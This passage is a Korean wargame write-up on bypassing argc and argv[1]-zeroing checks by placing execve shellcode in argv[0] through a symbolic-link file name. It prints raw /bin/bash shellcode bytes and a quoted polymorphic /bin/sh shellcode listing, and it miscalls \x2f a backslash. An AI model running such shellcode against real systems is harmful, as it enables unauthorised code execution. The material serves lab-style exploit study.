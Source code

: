 ```c
```

이번에 추가된 제약사항은 

- `argc==2` 즉, argument 는 하나만 사용해야 함.
-  `argv[1]` 까지 0으로 밀어버린다.


```c
        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }
...
        // one more!
        memset(argv[1], 0, strlen(argv[1]));
```

## 2. shellcode 를 명령어에 올려라

그렇다면 가능한 공격방법은 무엇일까 ? 
처음에는 방법이 있을까 했는데... 아무래도 `argv[0]` 인 명령어에 shellcode 를 올려놓고, 이를 이용할 수 밖에 없을 것 같다. 

shellcode를 `argv[0]` 에 올려놓고 사용할 수 있는 방법을 좀 고민하였다. 처음에는 command injection 형태로 시도하다가 그냥 symbolic link 를 걸어서 사용하였다.

그런데, 기존에 사용하던 shellcode 를 이름으로 실행 파일을 symbolic link 를 거는데 자꾸 에러가 나는거다.  shellcode 안에 `\x2f`가 `\` 이므로 파일 이름이 될 수 없어서 발생하는 에러라는거다.

```bash
$ ln -s troll2 `python -c 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
ln: cannot create symbolic link `j
                                  Xfh-pRjhh/bash/binRQS' to `troll2': No such file or directory
```

그렇다면 `\x2f` 가 들어가 있지 않은 shellcode 를 구해야한다.<br>
[Polymorphic Shellcode /bin/sh - 48 bytes by Jonathan Salwan](http://farlight.org/index.html?file=platforms/lin_x86/shellcode/13312.c&name=linux/x86---/bin/sh---polymorphic---shellcode---48---bytes&credit=Jonathan---Salwan&id=44483&isAdvisory=0)

다행히 compile 해서 실행하는데, 잘 동작하는거다. 이걸로 try 해보자.

```c
/*

 Title: 	Polymorphic Shellcode /bin/sh - 48 bytes
 Author: 	Jonathan Salwan
 Mail:		submit [!] shell-storm.org 

 	! DataBase of shellcode : http://www.shell-storm.org/shellcode/


 Original Informations
 =====================

 Disassembly of section .text:

  08048060  <.text>:
  8048060:	 31 c0                	 xor    %eax,%eax
  8048062:	 50                   	 push   %eax
  8048063:	 68 2f 2f 73 68       	 push   $0x68732f2f
  8048068:	 68 2f 62 69 6e       	 push   $0x6e69622f
  804806d:	 89 e3                	 mov    %esp,%ebx
  804806f:	 50                   	 push   %eax
  8048070:	 53                   	 push   %ebx
  8048071:	 89 e1                	 mov    %esp,%ecx
```